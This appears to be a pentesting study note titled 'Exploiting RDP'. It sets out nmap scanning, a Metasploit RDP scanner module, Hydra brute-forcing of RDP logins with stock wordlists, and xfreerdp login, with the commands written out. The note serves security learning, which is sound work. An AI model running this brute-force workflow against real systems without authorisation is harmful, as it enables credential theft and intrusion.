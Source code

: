 # Exploiting RDP
> Remote Desktop Protocol (RPD) is a proprietary GUI remote access protocl developed by Microsoft and it is used to remotely connect to and interact with a Windows system.

RDP Default Port: `3389`
- But it can be configured to run on any other TCP port. Therefore be thorough in your port scanning and enumeration.
- Port 3389 is IANA registered for...
  - Microsoft WBT Server, used for Windows Remote Desktop and Remote Assistance connections (RDP - Remote Desktop Protocol).
  - Also used by Windows Terminal Server (`ms-wbt-server`).

## Contents
- [Intro](#)
- [Exploit Steps](#)
  - [1. Scan](#)
  - [2. MetaSploit RDP Scanner](#)
  - [3. Brute Force with Hydra](#)
  - [4. RDP Client Access](#)
    - [xfreerdp](#)
    - [Remmina](#)

## Intro
> RDP authentication requires a legitimate user account on the target system as well as the user's password in clear-text.

- We can perform an RDP brute-force attack to identify legitimate user credentials that we can use to gain remote access to the target system. 
- And, of course, we'd like to grab the `administrator` creds if possible.

## Exploit Steps

### 1. Scan
```
nmap -sS -sV -sC -O -T4 -p- [target ip]
```
- If port `3389` is not listed in the results, look around for `ms-wbt-server` and note what port it's running on (that's RDP).
- How could you verify if RDP is running on port 3333?
  - One way is to connect to the target system using an RDP client on port 3333. You can connect, but you'll not have access without user creds.
  - You could also use the MetaSploit RDP scanner...

### 2. MetaSploit RDP Scanner
```
msfconsole
> search rdp_scanner
> use [that module]
> check and set options (target ip and port)
> run (and it should verify if RDP is running on the target port or not)
```

### 3. Brute Force with [Hydra](../../hydra.md)
```
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt [target ip] rdp -s 3333
# or
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://[target ip] -s 3333
# or
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://[target ip]:3333
```
- `-s` : service port (if not default)
- Be very careful with your brute-force speed. You could crash the system or DoS it.
  - The `-t` (tasks) options sets the number of connects in parallel (default is 16, for reference)
  - You could set `-t 2` or `-t 3` and see if that plays nicer.  Hydra actually recommends `-t 1` through `-t 4`.
- Once you run hydra you should get some creds to test drive. To do that use...

### 4. RDP Client Access

#### xfreerdp
```
xfreerdp /u:[username] /p:[password] /v:[targetip]:3389
```

#### [Remmina](https://remmina.org/)
- Another RDP client for Linux you could use. 
